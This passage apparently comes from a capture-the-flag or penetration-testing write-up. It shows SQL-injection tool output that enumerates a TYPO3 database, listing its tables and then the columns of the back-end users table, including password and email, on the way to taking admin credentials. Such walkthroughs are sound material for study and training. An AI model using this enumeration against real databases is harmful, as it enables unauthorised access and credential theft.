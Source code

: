 ```sh
| fe_users                                    |
| pages                                       |
| sys_be_shortcuts                            |
| sys_category                                |
| sys_category_record_mm                      |
| sys_collection                              |
| sys_collection_entries                      |
| sys_file                                    |
| sys_file_collection                         |
| sys_file_metadata                           |
| sys_file_processedfile                      |
| sys_file_reference                          |
| sys_file_storage                            |
| sys_filemounts                              |
| sys_history                                 |
| sys_language                                |
| sys_lockedrecords                           |
| sys_log                                     |
| sys_news                                    |
| sys_note                                    |
| sys_redirect                                |
| sys_refindex                                |
| sys_registry                                |
| sys_template                                |
| tt_content                                  |
| tx_extensionmanager_domain_model_extension  |
| tx_extensionmanager_domain_model_repository |
| tx_impexp_presets                           |
+---------------------------------------------+
```
- Looking at the tables we see `backend_layout`, `be_users` and `fe_users` I guess that `be` means back-end and `fe` means front-end. So let's get the back-end users columns now
```sh
[17:47:35] [INFO] fetching columns for table 'be_users' in database 'vn_admin'
[17:47:35] [WARNING] reflective value(s) found and filtering out
Database: vn_admin
Table: be_users
[34 columns]
+-----------------------+----------------------+
| Column                | Type                 |
+-----------------------+----------------------+
| admin                 | smallint(5) unsigned |
| allowed_languages     | varchar(255)         |
| avatar                | int(10) unsigned     |
| category_perms        | text                 |
| crdate                | int(10) unsigned     |
| createdByAction       | int(11)              |
| cruser_id             | int(10) unsigned     |
| db_mountpoints        | text                 |
| deleted               | smallint(5) unsigned |
| description           | text                 |
| disable               | smallint(5) unsigned |
| disableIPlock         | smallint(5) unsigned |
| email                 | varchar(255)         |
| endtime               | int(10) unsigned     |
| file_mountpoints      | text                 |
| file_permissions      | text                 |
| lang                  | varchar(6)           |
| lastlogin             | int(10) unsigned     |
| lockToDomain          | varchar(50)          |
| options               | smallint(5) unsigned |
| password              | varchar(100)         |
| pid                   | int(10) unsigned     |
```